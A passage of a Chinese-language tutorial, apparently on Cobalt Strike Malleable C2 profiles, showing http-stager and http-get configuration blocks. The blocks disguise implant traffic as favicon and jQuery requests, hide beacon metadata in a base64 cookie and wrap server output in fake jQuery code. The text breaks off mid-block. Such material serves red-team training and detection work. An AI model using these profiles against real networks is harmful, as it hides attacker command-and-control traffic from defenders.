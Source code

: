 ```
http-stager {

	set uri_x86 "/favicon1.ico";
	set uri_x64 "/favicon2.ico";

	client {

		header "Accept-Language" "zh-CN,zh;q=0.9,en;q=0.8";

	}

	server {

		header "Server" "Apache/2.4.39 (Unix)";
		header "Content-Type" "image/x-icon";

		output {

			print;

		}
	}
}
```

下面将会基于这个配置文件依次进行讲解.

但先来看看这个配置文件做了什么. 以 http-get 为例, 该代码块仅对通信过程中的 GET 请求有效.

```
http-get {

	set uri "/jquery.min.js";

	client {

		header "Accept-Language" "zh-CN,zh;q=0.9,en;q=0.8";
    	parameter "ver" "1.2.4";

		metadata {

			base64;
			prepend "token=";
			header "Cookie";

		}

	}

	server {

		header "Server" "Apache/2.4.39 (Unix)";
		header "Content-Type" "application/javascript; charset=utf-8";

		output {

			base64;
			prepend "/*! jQuery v2.1.3 | (c) 2005, 2014 jQuery Foundation, Inc. | jquery.org/license */!function(a,b){\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=a.document?b(a,!0):function(a)";
			append "var nc=a.jQuery,oc=a.$;return n.noConflict=function(b){return a.$===n&&(a.$=oc),b&&a.jQuery===n&&(a.jQuery=nc),n},b||(a.jQuery=a.$=n),n});"
			print;

```